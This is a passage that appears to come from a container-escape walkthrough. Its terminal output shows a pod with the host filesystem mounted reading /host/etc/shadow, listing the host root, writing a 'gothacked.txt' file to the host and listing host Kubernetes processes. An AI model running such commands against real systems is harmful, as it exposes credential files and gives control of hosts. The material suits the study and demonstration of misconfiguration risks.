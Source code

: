 ```
/ # head -5 /host/etc/shadow

root:*:19516:0:99999:7:::
daemon:*:19516:0:99999:7:::
bin:*:19516:0:99999:7:::
sys:*:19516:0:99999:7:::
sync:*:19516:0:99999:7:::

/ #
```

We can list our entire host filesystem:

```
/ # ls /host/

bin         home        libx32      opt         sbin        tmp
boot        lib         lost+found  proc        snap        usr
dev         lib32       media       root        srv         var
etc         lib64       mnt         run         sys

/ #
```

What you are looking is the host root ( `/` ) filesystem.

You can create files:

```
/ # echo 'Sneaky' >> /host/gothacked.txt

/ # ls -l /host/gothacked.txt

-rw-r--r--    1 root     root             7 Jun 24 20:49 /host/gothacked.txt

/ # cat /host/gothacked.txt

Sneaky

/ #
```

You can see all host processes as well:

```
/ # ps aux

PID   USER     TIME  COMMAND
    1 root      0:11 /lib/systemd/systemd --system --deserialize 35
    2 root      0:00 [kthreadd]
SNIP...
SNIP...
  237 root      0:00 [cryptd]
  498 root      0:00 /usr/sbin/acpid
  501 root      0:00 /usr/sbin/cron -f -P
  503 102       0:01 {dbus-daemon} @dbus-daemon --system --address=systemd: --nofork --nopidfi
-567 65535     0:00 /pause
-571 root      0:00 /usr/bin/containerd-shim-runc-v2 -namespace k8s.io -id d24131ac8ea18aba90
-601 65535     0:00 /pause
-629 root      0:00 /usr/local/bin/kube-proxy --config=/var/lib/kube-proxy/config.conf --host
-836 root      0:00 bpfilter_umh
-119 root      0:00 /usr/bin/weave-npc
-152 root      0:00 /usr/sbin/ulogd -v
-234 root      0:00 {launch.sh} /bin/sh /home/weave/launch.sh
-309 root      0:00 /home/weave/weaver --port=6783 --datapath=datapath --name=8a:f8:ab:42:d9:
-455 root      0:00 /home/weave/kube-utils -run-reclaim-daemon -node-name=ip-172-31-16-208 -p
-523 root      0:00 /usr/bin/containerd-shim-runc-v2 -namespace k8s.io -id c57d04f08b1467c008
```